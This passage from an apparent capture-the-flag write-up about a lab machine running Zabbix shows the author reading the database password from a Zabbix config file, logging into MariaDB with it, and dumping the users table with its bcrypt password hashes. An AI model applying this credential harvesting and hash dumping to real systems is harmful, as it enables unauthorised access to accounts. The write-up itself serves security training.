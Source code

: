 ```

...[snip]...
DBName=zabbix
...[snip]...
DBUser=zabbix
...[snip]...
DBPassword=ZabberzPassword2024!
...[snip]...

```

I’ll connect to `mysql`:

```

root@unrested:/etc/zabbix# mysql -u zabbix -pZabberzPassword2024!
...[snip]...
MariaDB [(none)]> use zabbix                               
...[snip]...
MariaDB [zabbix]>

```

The `users` table has three users, as I saw during the injection:

```

MariaDB [zabbix]> select * from users;                                                                                +--------+----------+---------+---------------+--------------------------------------------------------------+-----+--
---------+------------+---------+---------+---------+----------------+------------+---------------+---------------+---
-------+--------+-----------------+----------------+
| userid | username | name    | surname       | passwd                                                       | url | a
utologin | autologout | lang    | refresh | theme   | attempt_failed | attempt_ip | attempt_clock | rows_per_page | ti
mezone | roleid | userdirectoryid | ts_provisioned |       
+--------+----------+---------+---------------+--------------------------------------------------------------+-----+--
---------+------------+---------+---------+---------+----------------+------------+---------------+---------------+---
-------+--------+-----------------+----------------+       
|      1 | Admin    | Zabbix  | Administrator | $2y$10$L8UqvYPqu6d7c8NeChnxWe1.w6ycyBERr8UgeUYh.3AO7ps3zer2a |     |  
       1 | 0          | default | 30s     | default |              0 |            |             0 |            50 | de
fault  |      3 |            NULL |              0 |
|      2 | guest    |         |               | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |     |  
       0 | 15m        | default | 30s     | default |              0 |            |             0 |            50 | de
fault  |      4 |            NULL |              0 |
|      3 | matthew  | Matthew | Smith         | $2y$10$e2IsM6YkVvyLX43W5CVhxeA46ChWOUNRzSdIyVzKhRTK00eGq4SwS |     |  
       1 | 0          | default | 30s     | default |              0 |            |             0 |            50 | de
fault  |      1 |            NULL |              0 |
+--------+----------+---------+---------------+--------------------------------------------------------------+-----+--
---------+------------+---------+---------+---------+----------------+------------+---------------+---------------+---
-------+--------+-----------------+----------------+
3 rows in set (0.001 sec)

```